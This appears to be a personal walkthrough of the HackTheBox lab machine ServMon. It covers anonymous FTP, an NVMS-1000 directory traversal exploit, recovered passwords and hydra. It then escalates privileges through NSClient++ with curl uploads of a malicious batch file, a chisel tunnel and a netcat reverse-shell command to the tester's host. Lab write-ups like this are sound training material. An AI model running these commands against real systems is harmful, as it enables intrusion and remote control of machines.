





Webpage is a login page for NVMS-1000
FTP anonymous is enabled
Nadine share has this file
Nathan,
I left your Passwords.txt file on your Desktop. Please remove this once you have edited it yourself and place it
back into the secure folder.
Regards
Nadine
Notes on Nathans desktop
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
https://10.10.10.184:8443/index.html website is the NSClient access that was mentioned above which was supposedly locked down
NSclient++ does seem to have an LPE, other than that this page doesnt provide much. But this will probably be our priv esc
https://www.exploit-db.com/exploits/46802
I found a directory traversal exploit for NVMS 1000 allowing us to get the password file on Nathans desktop
exploit was found before the box release date so this is the intended path
https://www.exploit-db.com/exploits/47774

Passwords found
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
I got stuck for a minute assuming these passwords on Nathans desktop would be a password for Nathan. But I ran hydra against the other user we found Nadine and we got a hit.

nadine:L1k3B1gBut7s@W0rk
We can SSH in and get the user flag
Privilege Escalation
Web admin password for nsclient++ which we will need for this exploit
type "c:\program files\nsclient++\nsclient.ini"
; Undocumented key
password = ew2x6SsGTxjRwXOT

I tried doing it manually with curl and uploading the payload but in order for it to work I had to restart the application which I didnt know how to do manually. I found a script located here https://www.exploit-db.com/exploits/48360
I was able to upload a malicious bat file and change the script interval to one minute with curl
curl -s -k -u admin:ew2x6SsGTxjRwXOT "https://localhost:8443/api/v1/queries/evil/commands/execute?time=1m"
curl -s -k -u admin:ew2x6SsGTxjRwXOT -X PUT /home/kali/desktop/hackthebox/ServMon/evil.bat https://10.10.10.184:8443/api/v1/scripts/ext/scripts/evil.bat
Couldnt get the application to restart to execute it though
Looking through the source code of the exploit this is how its reloaded
# this function reloads the application, and waits for it to come back.
def reloadConfig(session):
printStatus("Reloading Application . . .", "info")
endpoint = "/core/reload"
session.get(url = base_url + endpoint, verify=False)
Using this script https://www.exploit-db.com/exploits/48360
The port was “Locked” down and the machine has defender running so I setup a tunnel so we could access the webpage from our machine without any issues or antivirus.
.\chisel_1.9.1_windows_amd64 client 10.10.14.24:8000 R:8443:localhost:8443
I transferred nc.exe to the machine so we could execute that with this attack and get a reverse shell.
synatx
python3 pwn.py -t localhost -P 8443 -p ew2x6SsGTxjRwXOT -c "C:\Users\Nadine\Desktop\nc.exe 10.10.14.24 443 -e cmd.exe"

And we get a shell

Machine was done with no hints or guided mode, however the script I used was developed after the machine was released but wasnt designed specifically for HTB
Looking how 0xdf did it there used to be a login page on the NSClient page which wasnt a thing when I signed in so everything had to be done using curl. Unfortunately the GUI was either removed or didnt work for me but it made the box 100x easier. He was able to go in and manually add the script/interval and trigger it. Using curl made things significantly more difficult if not impossible.